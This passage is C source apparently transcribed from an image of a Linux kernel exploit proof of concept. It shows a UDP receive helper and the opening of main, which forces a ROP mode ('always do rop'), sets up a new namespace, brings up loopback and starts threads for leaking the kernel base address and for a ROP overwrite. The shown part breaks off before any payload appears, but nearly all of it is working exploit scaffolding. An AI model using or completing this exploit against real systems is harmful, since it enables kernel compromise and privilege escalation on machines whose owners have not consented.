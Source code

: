 ```c
    }

    len = sizeof(cliaddr);
    n = recvfrom(sockfd, buffer, 1024, 0, (struct sockaddr *)&cliaddr, &len);
    printf("  [-] recv udp packet length : %d\n", n);

    if (n <= 0)
    {
        perror("recvfrom");
        exit(EXIT_FAILURE);
    }
    buffer[n] = '\0';

    printf("  [-] recv data : ");
    for (int i = 0; i < n; i++)
    {
        printf("%02x ", (unsigned char)buffer[i]);
    }
    printf("\n");

    close(sockfd);
}

int main(int argc, char *argv[])
{
    if (argc == 2)
        ROP_FLAG = 1;

    ROP_FLAG = 1; // always do rop

    int tid_for_leak, status_for_leak;
    pthread_t p_thread_for_leak;
    unsigned char udpbuf_for_leak[512] = {
        0,
    };

    int tid_for_overwrite, status_for_rop;
    pthread_t p_thread_for_rop;
    unsigned char udpbuf_for_rop[512] = {
        0,
    };

    memset(udpbuf_for_leak, 0x41, 512);

    new_ns();

    system("ip link set lo up");

    printf("[+] Leak kernel base address\n");
    printf("  [-] install udp server\n");

    tid_for_leak = pthread_create(&p_thread_for_leak, NULL, udp_server_for_leak, (void *)udpbuf_for_leak);
    if (tid_for_leak < 0)
    {
        perror("thread create error : ");
        exit(0);
    }

    tid_for_overwrite = pthread_create(&p_thread_for_rop, NULL, udp_server_for_rop, (void *)udpbuf_for_rop);
    if (tid_for_overwrite < 0)
    {
```